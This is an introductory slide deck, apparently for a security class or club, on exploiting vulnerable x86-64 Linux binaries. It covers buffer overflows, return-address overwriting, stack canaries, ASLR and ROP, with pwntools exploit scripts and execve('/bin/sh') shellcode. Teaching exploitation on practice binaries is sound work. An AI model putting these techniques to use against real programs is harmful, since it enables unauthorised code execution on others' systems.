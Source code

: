 ```yaml
---
marp: true
theme: leet
---
```


# pwn

exploiting (very) vulnerable x86-64 binaries on linux

---

## c bad

- trusts you too much
  - array accesses
  - integer overflows
- mixing data and metadata
  - return addresses on stack
  - null-terminated strings
- manual {init,cleanup}
- poor type system

---

some dangerous library functions:

- `gets`
- `strcpy`
- `scanf`
- `sprintf`
- …

---

![gets deemed dangerou](./media/gets.png)

---

## buffer overflows

---

### stepping out of our lane

- causing crashes
- changing stuff on the stack
- jumping to arbitrary places in the code
  - other functions
  - middle of other functions
- running arbitrary code*

---

### causing crashes

Inputs like `AAAAAAAAAAAAAAAAAAAAAAAAAAAA…`

```py
from pwn import *

p = process("./vuln")
p.sendline(b"A" * 500) # adjust number as necessary
```

---

### changing stuff on the stack

```py
from pwn import *

padding = 64

p = process("./vuln")
p.sendline((b"A" * padding) + p32(0xDEADBEEF))
```

---

```c
// ...
char expected[36];
char actual[36];
strcpy(expected, "something something");

gets(actual);
printf("  actual: %s\n", actual);
printf("expected: %s\n", expected);
```

```py
import sys

magic_constant = 12  # obtained through trial-and-error
sys.stdout.buffer.write(b"A" * 35 + b"\x00" + b"A" * (35 + magic_constant))
```

---

### changing (especially useful) stuff on the stack

1. set a breakpoint in the vulnerable function
2. run
3. check the addresses of
   - the vulnerable buffer
   - saved rip (`info frame`)
4. send `(b'A' * padding) + p64(spoof_return_addr)`

---

```py
from pwn import *

saved_rip_addr = 0x7fffffff...
buffer_addr = 0x7fffffff...
padding_size = saved_rip_addr - buffer_addr

spoofed_return_addr = 0x40...

p = process("./pwnable")
p.sendline((b'A' * padding_size) + p64(spoofed_return_addr))
p.interactive()
```

---

### shellcode

compiled bytes (position-independent) that do stuff

examples:

- open a shell
- read a file
- change permissions on a file
- callback shell
- …

considerations: prohibited bytes, …

---

x86-64 shellcode to do `execve("/bin/sh", NULL, NULL)`

```assembly
/* syscall number for execve */
mov rax, 59

/* bytes corresponding to "/bin/sh" */
mov rbx, 0x68732f2f6e69622f

/* move the string to the stack */
push rbx

/* set the first arg to the address of the string */
mov rdi, rsp

/* argv is NULL */
mov rsi, 0

/* envp is NULL */
mov rdx, 0

syscall
```

---

### assembling with pwntools

```py
assembly = '''
    nop
    nop
    nop
'''

# convert assembly to bytes
# amd64 = intel x86-64
shellcode = asm(assembly, arch='amd64')
```

---

### write ⊕ execute

don't execute stack contents as code!

the pages of memory for the stack should never be executable!

gcc requires you to explicitly disable this (`-z execstack`).

---

### stack canaries

1. insert some secret bytes at the boundaries of buffers
2. before leaving the function, verify that they haven't been overwritten

gcc requires you to explicitly disable this (`-fno-stack-protector`).

pretty solid. if you can somehow leak the canary though, you can just delicately replace it.

---

### aslr

address-space layout randomization

moves the stack around to make it harder for the attacker to guess the location of their exploits.

---

### rop

1. make a list of useful gadgets
2. chain gadgets to execute arbitrary-ish assembly
3. ???
4. profit

<!-- also jop -->

---

### format string vulns

[_optional reading_](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
